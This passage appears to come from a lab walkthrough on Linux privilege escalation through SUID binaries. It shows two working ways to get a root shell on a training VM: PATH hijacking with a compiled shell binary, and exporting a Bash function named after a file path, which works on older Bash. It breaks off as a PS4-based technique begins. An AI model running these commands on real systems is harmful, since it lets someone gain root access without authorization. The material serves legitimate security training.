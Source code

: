 One line ("service apache2 start") suggests that the service executable is being called to start the webserver, however the full path of the executable (/usr/sbin/service) is not being used.

Compile the code located at /home/user/tools/suid/service.c into an executable called service. This code simply spawns a Bash shell:

`gcc -o service /home/user/tools/suid/service.c`

Prepend the current directory (or where the new service executable is located) to the PATH variable, and run the suid-env executable to gain a root shell:

`PATH=.:$PATH /usr/local/bin/suid-env`
```
user@debian:/usr/local/bin$ ls
compress.sh  overwrite.sh  suid-env  suid-env2  suid-so
user@debian:/usr/local/bin$ suid-env
[....] Starting web server: apache2httpd (pid 1715) already running
. ok 
user@debian:/usr/local/bin$ 


```

###  SUID / SGID Executables - Abusing Shell Features (#1)

The /usr/local/bin/suid-env2 executable is identical to /usr/local/bin/suid-env except that it uses the absolute path of the service executable (/usr/sbin/service) to start the apache2 webserver.

Verify this with strings:

`strings /usr/local/bin/suid-env2`

In Bash versions <4.2-048 it is possible to define shell functions with names that resemble file paths, then export those functions so that they are used instead of any actual executable at that file path.

Verify the version of Bash installed on the Debian VM is less than 4.2-048:

``/bin/bash --version`

Create a Bash function with the name "/usr/sbin/service" that executes a new Bash shell (using -p so permissions are preserved) and export the function:

`function /usr/sbin/service { /bin/bash -p; }`
`export -f /usr/sbin/service`

Run the suid-env2 executable to gain a root shell:

`/usr/local/bin/suid-env2`

Remember to exit out of the root shell before continuing!

###  SUID / SGID Executables - Abusing Shell Features (#2)


Note: This will not work on Bash versions 4.4 and above.

When in debugging mode, Bash uses the environment variable PS4 to display an extra prompt for debugging statements.
